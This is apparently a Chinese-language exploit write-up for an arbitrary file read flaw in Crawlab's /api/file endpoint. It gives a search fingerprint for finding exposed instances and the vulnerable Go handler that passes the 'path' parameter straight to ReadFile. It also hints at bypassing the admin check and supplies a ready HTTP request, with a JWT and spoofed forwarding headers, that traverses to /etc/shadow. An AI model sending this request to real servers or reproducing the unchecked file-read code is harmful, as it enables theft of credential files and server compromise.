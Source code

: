# Crawlab file 任意文件读取漏洞

## 漏洞描述

Crawlab 后台 /api/file接口 存在任意文件读取漏洞，攻击者通过漏洞就可以读取服务器中的任意文件

## 漏洞影响

```
Crawlab v0.0.1
```

## 网络测绘

```
title="Crawlab"
```

## 漏洞复现

登录页面

![](images/202205241440512.png)

首先查看路由位置 main.go 文件 中的 file 接口对应的函数

![](images/202205241440175.png)

```
package routes

import (
	"crawlab/utils"
	"github.com/gin-gonic/gin"
	"io/ioutil"
	"net/http"
)

// @Summary Get file
// @Description Get file
// @Tags file
// @Produce json
// @Param Authorization header string true "Authorization token"
// @Success 200 json string Response
// @Failure 400 json string Response
// @Router /file [get]
func GetFile(c *gin.Context) {
	path := c.Query("path")
	fileBytes, err := ioutil.ReadFile(path)
	if err != nil {
		HandleError(http.StatusInternalServerError, c, err)
	}
	c.JSON(http.StatusOK, Response{
		Status:  "ok",
		Message: "success",
		Data:    utils.BytesToString(fileBytes),
	})
}
```

![](images/202205241440403.png)

接口调用为后台才可调用，通过任意用户添加可以完成绕过

path参数可控，发送Get请求读取任意文件

```
GET /api/file?path=../../etc/shadow HTTP/1.1
Host: 
Content-Length: 0
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYwZGQxOWU0YmZjNzg3MDAxZDk1NjBjOSIsIm5iZiI6MTYzOTMwNTI2MiwidXNlcm5hbWUiOiJhZG1pbiJ9.mFRAwXN-QqTmFmPAxgFEJhVXwxVuxJMepHe4khADfgk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
```

![](images/202205241441701.png)